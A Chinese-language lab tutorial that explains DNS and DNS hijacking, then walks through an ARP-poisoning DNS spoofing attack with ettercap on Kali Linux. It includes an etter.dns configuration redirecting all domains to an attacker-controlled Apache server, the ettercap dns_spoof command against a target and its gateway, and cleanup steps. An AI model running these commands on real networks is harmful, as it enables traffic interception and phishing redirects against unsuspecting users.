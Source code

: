 # 什么是DNS

## 概念

DNS是Domain Name System的缩写,我们称之域名系统。首先它是远程调用服务,本地默认占用53端口，它本身的实质上-一个域名和ip的数据库服务器，他要完成的任务是帮我们把输入的域名转换成ip地址，之后通过ip寻址连接目标服务器。

## DNS工作过程

当访问一个网站时系统将从DNS缓存中读取该域名所对应的IP地址，当查找不到时就会到系统中查找hosts文件,如果还没有那么才会向DNS服务器请求一个DNS查询， DNS服务器将返回该域名所对应的IP,在你的系统收到解析地址以后将使用该IP地址进行访问，同时将解析缓存到本地的DNS缓存中。

![image-20221223143711807](https://img.gyxnb.top/img/image-20221223143711807.png)

# 什么是DNS劫持

## 概念

DNS劫持又称域名劫持，是指在劫持的网络范围内拦截域名解析的请求,分析请求的域名，把审查范围以外的求放行，否则返回假的IP地址或者什么都不做使请求失去响应,效果就是**对特定的网络不能访问或访问的是假网址**。

## ettercap劫持的原理

局域网劫持,攻击者通过伪装成**网关**，劫持受害者的网络请求将网络请求拦截到指定的服务器

## DNS常用命令

### 查看DNS缓存表

`ipconfig /displaydns`

### 获取DNS地址

`ping baidu.com`

### 刷新DNS缓存

`ipconfig /flushdns`

# ARP-DNS欺骗攻击步骤

## kali开启apache

`service apache2 start`

### 查看apache状态

`service apache2 status`

### 浏览器访问Apache的首页

http://192.168.70.3

## 编辑ettercap配置文件

### 进入配置文件位置

`cd /etc/ettercap`

### 复制原有的配置文件（环境恢复方便）

`cp etter.dns etter.dns1`

### 设置DNS劫持配置文件

`vim /etc/ettercap/etter.dns`

添加以下内容

```
*  A   192.168.70.3
*  PTR 192.168.70.3
www.*.com A 192.168.70.3
```

`wq`保存

参数

- *：表示所有网站，也可以设置某个网站 www.baidu.com
- A:表示钓鱼的ip地址
- PTR:常被用于方向地址解析

### ettercap劫持命令讲解

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关//
-i:网卡
-T：问本模式
-q:安静模式
-M:执行mitml攻击
-P：plugin 开始该插件
```

### 靶机访问网页确认环境正常

- http://www.mashibing.com/
- http://m.ctrip.com
- http://www.dj.com/



- ping http://www.mashibing.com/
- ping http://m.ctrip.com
- ping http://www.dj.com/

## 执行劫持命令

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.70.130// /192.168.70.2// >b.txt
```

### 分析日志

`tail -f b.txt`

或者

`tail -f b.txt | grep "dns_spoof"`

### 靶机访问http网站查看攻击效果

- http://www.mashibing.com/
- http://m.ctrip.com
- http://www.dj.com/

## 停止劫持

ctrl+c

## 恢复dns劫持，刷新dns缓存

`ipconfig /flushdns`

### 靶机访问网站查看环境是否恢复正常

- http://www.dj.com/

ping www.dj.com

## 恢复kali环境

#### 进入配置文件位置

`cd /etc/ettercap`

#### 复制dns文件到新wen文件

`cp etter.dns etter.dns2`

#### 还原dns配置文件

`cp etter.dns1 etter.dns`

